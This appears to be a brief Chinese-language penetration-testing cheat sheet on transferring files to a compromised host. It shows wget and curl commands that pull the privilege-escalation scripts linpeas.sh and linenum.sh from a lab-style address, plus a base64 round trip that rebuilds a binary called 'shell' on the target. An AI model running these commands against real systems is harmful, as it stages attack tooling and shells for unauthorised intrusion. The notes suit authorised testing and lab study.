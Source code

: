 ### 启动本地的web服务器
    python3 -m http.server 8000
### 从我本地机器上下载文件到远程服务器
    wget http://10.10.10.10:8000/linpeas.sh
    curl http://10.10.10.10:8000/linenum.sh -o linenum.sh

### 使用scp将文件传输到远程服务器（需要SSH访问）
    scp linenum.sh root@10.10.10.10:/tmp/linenum.sh

### 将文件转换为base64
    base64 shell -w 0
### 将文件从base64转换回原始格式
    echo f0VMR...SNIO...InmDwU \| base64 -d > shell

### 检查文件的md5sum以确保正确转换
    md5sum shell